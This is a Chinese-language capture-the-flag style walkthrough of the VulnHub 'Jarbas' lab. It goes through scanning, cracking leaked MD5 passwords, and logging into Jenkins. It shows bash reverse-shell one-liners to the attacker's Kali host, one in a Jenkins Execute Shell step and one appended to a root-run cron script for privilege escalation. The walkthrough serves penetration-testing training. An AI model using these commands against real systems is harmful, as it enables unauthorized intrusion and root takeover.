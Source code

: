 jarbas 渗透
===

>   参考视频: [红队笔记](https://www.bilibili.com/video/BV1jm4y1A7Tm)

<iframe src="//player.bilibili.com/player.html?isOutside=true&aid=688976487&bvid=BV1jm4y1A7Tm&cid=858665055&p=1" scrolling="no"  frameborder="no" framespacing="0" allowfullscreen="true"></iframe>

靶机下载: [vulnhub](https://download.vulnhub.com/jarbas/Jarbas.zip)

### Nmap 扫描

#### 主机发现

先用 Nmap 扫描靶机, 扫出靶机 ip: `192.168.170.137`

```bash
sudo nmap -sn 192.168.170.0/24
```

---

![1.png](1.png)

#### 漏洞扫描

先寻找开放的端口:

```bash
sudo nmap --min-rate 10000 -p- 192.168.170.137
```

---

![2.png](2.png)

接下来对这些端口做 TCP, UDP 和漏洞脚本扫描:

```bash
sudo nmap -sT -sV -O -p22,80,3306,8080 192.168.170.137
sudo nmap -sU -p22,80,3306,8080 192.168.170.137
sudo nmap --script=vuln -p22,80,3306,8080 192.168.170.137
```

---

![3-1.png](3-1.png)

---
![3-2.png](3-2.png)

---
![3-3.png](3-3.png)

---

### 收集信息

回显 80 端口存在可能的 CSRF 漏洞和 SQL 注入, 3306 端口没有扫描到漏洞。8080 端口存在枚举, 泄露信息。

访问 `192.168.170.137` 和 `192.168.170.137:8080` 分别显示的是网站的首页和后台登录页面。这个**登录页面**很可能就是管理员账号登录界面。

![4.png](4.png)

接着根据刚刚的回显访问 `192.168.170.137:8080/robots.txt` , 显示`"we don't want robots to click "build" links. "`

![5.png](5.png)

### 目录爆破

用  dirb, gobuster 进行目录爆破:

```bash
sudo dirb http://192.168.170.137
sudo gobuster dir -u http://192.168.170.137 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

---

![6-1.png](6-1.png)

![6-2.png](6-2.png)

dirb 发现了 `cgi-bin` 文件夹和 index.html 文件, gobuster 没有发现文件, 尝试一下用 `-x` 指令指定扩展名, 注意到刚刚 nmap 的回显中有提到 **`user.php`**, 猜测网站的技术栈, 这里添加 `html` 和 `php`:

```bash
sudo gobuster dir -u http://192.168.170.137 --wordlist=/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html
```

![6-3.png](6-3.png)

访问一下 `http://192.168.170.137/index.html` , 发现就是网站主页; 再访问 `http://192.168.170.137/access.html`:

![7.png](7.png)

这里出现的三个字符串非常像 **MD5** 哈希, 随便到一个[工具网站](https://www.cmd5.com/)到进行碰撞 (也可以先在 kali 上用 `hash-identifier` 猜测一下哈希类型), 得到明文分别是: `italia99`, `marianna`, `vipsu`。

也就是全文为:
-   tiago: italia99
-   trindade: marianna
-   eder: vipsu

结合之前的信息, 这一段文字很有可能是登录名和口令。回到登录界面, 挨个试试登录, 发现 `eder: vipsu` 可以直接登录:

![8.png](8.png)

### Jenkins 利用

登录后可以直接看见, 靶机网站使用的是 Jenkins 服务器。攻击面主要在 `系统管理` 的项目中。

>   Jenkins 是一种开源的自动化服务器，主要用于实现软件开发中的持续集成和持续交付/部署。它通过自动化构建、测试和部署流程，帮助开发团队高效协作，提升软件交付速度和质量。

接下来新建一个项目, 

![9-1.png](9-1.png)

靶机是 Linux 服务器, 这里在构建项目时选择 `Execute Shell`, 注意这里填的是kali 的地址, 方便在 kali 中进行监听:

![9-2.png](9-2.png)

---

```shell
/bin/bash -i >& /dev/tcp/192.168.170.135/4444 0>&1
```

设置完毕后保存, 在 kali 中开启监听:

```bash
sudo nc -lvnp 4444
```

接下来, 在 Jarbas 服务器上构建项目, 就会执行 shell。此时 kali 上已经收到了反弹 shell。先收集一下信息。

![9-3.png](9-3.png)

尝试一下查看本机用户, 发现可用:

![9-4.png](9-4.png)

这里能正常登录的账号应该只有 sync 和 eder, sync 应该是数据同步服务的账户, 是一个系统内置的**低权限**账户，一般没有sudo权限, 也不能访问敏感文件, 于是直接考虑 eder 这个账户。

>  sync 用户的默认用途:
>-  核心功能：
>sync 账户的主要职责是触发 内存数据同步到磁盘（强制刷新缓存），防止系统崩溃时数据丢失。对应的命令是 `/bin/sync`（或 `/sbin/sync`），通常由系统自动调用，不需要人工登录。
>-  典型权限配置：
>```bash
># /etc/passwd 中的典型配置
>sync:x:4:65534:sync:/bin:/bin/sync
>```

先试一下 `cat /etc/shadow`, 无权限; 再试试查看定时任务 `cat etc/crontab`, 有回显, 发现系统每五分钟就会执行 `/etc/script/CleaningScript.sh` 这个脚本。

![9-5.png](9-5.png)

看看这个脚本的内容:

![9-6.png](9-6.png)

尝试一下, 先在 kali 上开启对应端口的监听, 再把开启 bash 的代码追加在这段定时执行的代码后面:

``` bash
sudo nc -lvnp 4443
```

```bash
echo "/bin/bash -i >& /dev/tcp/192.168.170.135/4443 0>&1" >> /etc/script/CleaningScript.sh
```

五分钟后, kali 上收到了回显:

![10.png](10.png)

到这里已经完成了提权, 接下来很容易就能拿到 flag, 大功告成!

![11.png](11.png)

### 总结

本次渗透的关键点在于:
-   通过 nmap 的扫描结果暴露的信息猜测技术栈辅助目录爆破;
-   利用泄露的 `eder:vipsu` 登录 Jenkins 后台，通过 **新建项目** → Execute Shell 执行反向 Shell 代码。实际上**大部分 Jenkins 服务器都存在类似漏洞**;
-   Crontab 定时任务注入: 发现定时任务执行的脚本, 并注入恶意代码(关键在于, **要执行的脚本并不需要 root 权限就可以进行写入**)。其根本在于, 这段脚本以普通用户的身份就可以进行编辑, 但是执行时使用的是 Root 账户, 因此弹回的 Shell 也是 Root 身份, 也就可以完成提权。